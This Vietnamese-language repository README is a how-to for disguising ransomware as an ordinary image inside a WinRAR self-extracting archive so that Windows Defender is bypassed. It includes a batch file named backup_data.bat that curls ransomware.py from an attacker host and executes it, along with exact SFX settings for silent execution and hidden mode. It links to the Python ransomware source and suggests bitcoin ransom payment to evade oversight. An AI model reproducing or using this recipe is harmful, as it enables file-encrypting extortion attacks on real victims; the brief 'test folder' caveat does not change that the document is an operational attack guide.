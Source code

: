 # Giả mạo file bất kỳ để chạy ransomware
Lạm dụng tính năng hợp pháp của phần mềm WinRAR để nén trực tiếp ransomware và một file ảnh bất kỳ vào cùng 1 file, để tạo ra một file hoàn toàn hợp pháp, nhằm bypass hoàn toàn Windows Defender (trước khi nén, ransomware cũng đã được mã hóa). 

File được nén có tên và icon giống hệt 1 file ảnh bình thường.          
***(Ví dụ: Mô-hình-mạng-doanh-nghiệp.jpg, file ảnh này được đặt trong tệp file nén: Hồ-sơ-năng-lực-doanh-nghiệp.rar)***

Khi chạy file hợp pháp đã được nén đó, ransomware sẽ tự động thực thi và mã hóa toàn bộ dữ liệu file trên máy của nạn nhân (mã hóa ở đâu, 1 phần hay toàn bộ dữ liệu hoàn toàn do hacker quyết định,....). Thuật toán mã hóa được sử dụng là RSA-256 - key giải mã nằm duy nhất trên máy hacker.

Kết quả tấn công: Ransomware mã hóa toàn bộ file của nạn nhân và để lại thông tin liên lạc cho việc thanh toán tiền chuộc (có thể thành toán bằng bitcoin - tránh được sự giám sát từ bất kỳ một bên thứ 3 nào khác)

## Thực thi
1. [Ransomware được viết bằng python](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/Fake%20files%20to%20run%20ransomware/Windows.py)
2. ".bat" file có nhiệm vụ tải ransomware đang được host trên máy attacker về  và thực thi. Lưu ý: trong phạm vi thử nghiệm cần sửa lại file .bat này để ransomware được thực thi đúng vị trí thư mục thử nghiệm.
```bat
:: Tên file ".bat" đặt thành backup_data.bat
@echo

cd C:\\User\anoni\Desktop\backup 
:: cần sửa lại đúng đường dẫn của thư mục thử nghiệm. Thư mục thử nghiệm ở đây là **backup**

curl http://192.168.2.39:1113/ransomware.py > backup_data.py

backup_data.py
```

Con ransomware này sẽ mã hóa những file nằm trong cùng thư mục với nó. Vì thế nên trong phạm vi thử nghiệm, cần đặt nó đúng vào thư mục thử nghiệm!!! 

Key mã hóa (public key) đã được chèn thẳng vào code

Mã hóa file .bat trên tương tự như [demo này](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/Attach%20malicious%20code%20to%20a%20legitimate%20WORD%20file.md)

Trong demo này, file ảnh sẽ được giả mạo để thực thi ransomware 

1. Chọn file ảnh (.png) và file .bat đã mã hóa
2. Add to archive... -> Compression method: Best -> Create SFX archive
3. Advanced -> SFX options
4. "Path to extract: Điền thư mục thử nghiệm vào đây", Setup - Run after extraction: backup_data.bat, Text and icon: tự đặt, Modes: Hide all


